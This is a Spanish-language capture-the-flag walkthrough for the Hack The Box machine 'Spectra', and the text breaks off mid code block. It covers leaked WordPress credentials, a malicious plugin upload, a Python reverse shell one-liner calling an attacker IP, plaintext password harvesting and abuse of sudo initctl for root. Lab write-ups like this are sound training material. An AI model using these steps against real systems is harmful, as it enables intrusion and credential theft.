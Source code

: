 #by d4l1

<p align="center"><img src=""></p>

<h1 align="center">Spectra</h1>

# ÍNDICE

# INTRODUCCIÓN

Spectra es una máquina linux de dificultad fácil el que contiene un software de tracking construido en Wordpress. Este servidor lista un directorio con credenciales en el cual ganaremos acceso al manager de administrador. Construyendo un plugin malicioso

Enumerando unas nuevas credenciales y capturandolas para coger otoro usuario. Finalmente un problema de configuración permite hacer acciones de sudo en los servicios y ganado el root.

Primero de todo tes de conectividad

![image](https://github.com/D4l1-web/HTB/assets/79869523/0607b6f2-0635-4c7b-8aec-8c8292e95689)

Escaner de puertos

![image](https://github.com/D4l1-web/HTB/assets/79869523/b4391565-6aa4-4a3d-b862-e2e3d3cfe930)

Como podemos ver nos encontramos cono un servicio SSH, Nginx y un MySQL en los puertos por defecto. No hemos mencionado que la versión de nginx es vulnerable a RCE

Podemos irnos al puerto 80 y ver la página y veremos a que tenemos acceso

![image](https://github.com/D4l1-web/HTB/assets/79869523/dd1fc5e4-d199-4667-abdb-dc10130caf2e)

Nos encontramos si busacmos en el dominio "spectra.htb"

```
echo "ip spectra.htb" | sudo tee -a /etc/hosts
```

Si nos vamos al dominio encontramos esto 

![image](https://github.com/D4l1-web/HTB/assets/79869523/0e565c34-c008-472a-8578-0db391ea019a)

Encontramos el directorio /testing/ que es importante

![image](https://github.com/D4l1-web/HTB/assets/79869523/d707a2a2-45aa-4fc3-a082-ca99668b4b95)

De todo la vida el wp-config.php estan las credenciales veamos, vemos que ha sido editado y hay otro archivo con un .save

![image](https://github.com/D4l1-web/HTB/assets/79869523/c47fc130-5897-4bb0-8ff0-33f2452a17cb)

Si probamos con las credenciales que nos dan nos da error, pero si en el usuario ponemos "administrator" nos deja entrar 

![image](https://github.com/D4l1-web/HTB/assets/79869523/98e19537-2512-4f59-ba44-a583b95a95bc)

Teniendo privilegios de administrador en una instancia de Worpress, hace que tengamos muchas tecnicas que puedan dar una ejecución de comando en el servidor. Un metodo es subir un plugin malicioso y guardarlo como wp-maintenance.php

![image](https://github.com/D4l1-web/HTB/assets/79869523/68907b04-ab02-42a7-83c3-63ad4b1a6163)

Una vez creado el archivo podemos irnos a plugins y añadir uno elegir el archivo e instalarlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/28fbafb1-3d32-45b1-8d02-8a2d8d844f90)

Nos da error vamos a probar a comprimirlo

![image](https://github.com/D4l1-web/HTB/assets/79869523/277ebbf7-5426-44bb-a527-4a1740b57de9)

![image](https://github.com/D4l1-web/HTB/assets/79869523/f674863f-cea3-4929-b0db-7020f94287e3)

![image](https://github.com/D4l1-web/HTB/assets/79869523/7dc8fd01-cd5a-4247-9aaa-1af07ad94934)

Ahora nosotros podemos navegar a esa url y probar si podemos ejecutar comandos

![image](https://github.com/D4l1-web/HTB/assets/79869523/8e40edb7-f7d7-42b2-bf80-cab642dee3fd)

Podemos hacer una revershe shell con python

```
cmd=python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.
10.14.3",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Nos conectamos y conseguimos una buena shell

```
# In the reverse shell
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
# In Parrot
stty raw -echo
fg
reset
xterm
# In the reverse shell
export SHELL=bash
export TERM=xterm-256color
stty rows 24 columns 150
```

Si hacemos una enumeracion por /home/user/ podemos encontrar archivos de usuarios y hashes también tneemos backups dentro de /backups/user_profiles que pueden leer los usuarios

Vamos a hacer enumeraciones de servicio como ftp 
```
grep -R ftp://
```

encontramos un 00089.log y le hacemos cat, encontramos una contraseña del usuario katie
```
ssh katie@ip
```
Tambien tenemos otro archivo que nos dice literalmente la pass en la ruta /etc/autologin/passwd

```
SummerHereWeCome!!
```

cuando hacemos un sudo -l para ver los permisos encontramos una ruta "/sbin/initctl"

Buscando este tipo de archivos se encunetran en el directorio /srv
```
find / -group developers 2>/dev/null
```

este contenido tiene los test del servidor
```
ls -al srv/
```

```
cat srv/nodetest.js
```
Encontramos un js que crea un servidor 

si vemos la ejecución y a donde va tenemos permisos de escritura y ejecución 

![image](https://github.com/D4l1-web/HTB/assets/79869523/2ec39131-fadf-48ce-b107-36f6f07f17eb)

Encontramos esto 
```
katie@spectra ~ $ cat /etc/init/test.conf
description "Test node.js server"
author "katie"
start on filesystem or runlevel [2345]
stop on shutdown
script
export HOME="/srv"
echo $$ > /var/run/nodetest.pid
 exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js
end script
pre-start script
echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
end script
pre-stop script
rm /var/run/nodetest.pid
echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

Busquemos "upstart initctl"

Descubrimos como trucar el "inictl" para remplazar el contenido
```
start on pwn
task
exec









